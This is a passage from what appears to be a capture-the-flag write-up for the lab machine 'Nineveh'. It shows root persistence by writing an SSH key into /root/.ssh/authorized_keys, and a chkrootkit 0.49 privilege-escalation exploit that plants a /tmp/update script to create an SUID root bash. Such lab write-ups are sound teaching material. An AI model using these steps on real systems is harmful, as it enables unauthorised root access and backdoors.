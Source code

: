 		amrois@nineveh:/tmp$ ssh-keygen -t rsa
		```
	2. Create `/root/.ssh`
		```
		# mkdir -p /root/.ssh
		```
	3. Place `Amrois` public key into `/root/.ssh/authorized_keys`
		```
		echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD6ItIHY3OMLlsiLCB0FlW7Q5kGTHbORLFAxKzj3xS3mic7t2GDgwOEX2ZZQF5QVJQlRkZ/OGU3Fc++TCtKXSBvaWjAs3DIqaucyfaOaJ/MVi4sVzpRB4diErdjsGStx81QcoV8vl1o+GGHSjIHJsBbuVirVrE665RUu4M62tdk8bzzRj8j7gAVPOxYPO6UIQfjtA3n80cGCQnRLRhQivO4icxo+neiP/W9esV/JwjTYUzowynR86PF+ae9ABkdUveBQqWso8tI7/pGE9DycNLgfaXR9mGwH1ZQzySiG4mlyty568GCQvvhWkryHG4WhqE4NKbOUJlgvGXUevl/h3Rl amrois@nineveh" > /root/.ssh/authorized_keys
		```
	4. Change permission of `authorized_keys`
		```
		chmod 700 /root/.ssh
		chmod 600 /root/.ssh/authorized_keys
		```
	5. SSH w/ `Amorois` private key
		```
		amrois@nineveh:~/.ssh$ ssh -i yes root@localhost
		```
		![]({{ page.img_path }}Pasted%20image%2020220824041701.png)

# Privilege Escalation - 2

## Root - Chrookit Exploit
1. Found something interesting w/ `pspy64`
	![]({{ page.img_path }}Pasted%20image%2020220824045320.png)
	-  `chkrootkit`  is executed as root.
2. Search exploits for `chkrootkit`

	| Exploit Title                                | Path |
	| -------------------------------------------- | ---- |
	| Chkrootkit 0.49 - Local Privilege Escalation | linux/local/33899.txt     |
3. Try `33899.txt`
	1. How does the exploit work?
		- The line `'file_port=$file_port $i'` will execute all files specified in `$SLAPPER_FILES` as the user `chkrootkit` is running (usually `root`), if `$file_port` is empty, because of missing quotation marks around the variable assignment.
	2. `/tmp/update` will be executed as `root` due to the vulnerability
	3. Create script to set SUID bit on `/bin/bash`
		```
		amrois@nineveh:~$ nano /tmp/update
		
		cp /bin/bash /tmp/rootbash; chmod u+s /tmp/rootbash

		amrois@nineveh:~$ chmod +x /tmp/update
		```
	4. Wait for `chkrootkit` to execute
	5. Obtained Root Shell
		![]({{ page.img_path }}Pasted%20image%2020220824050658.png)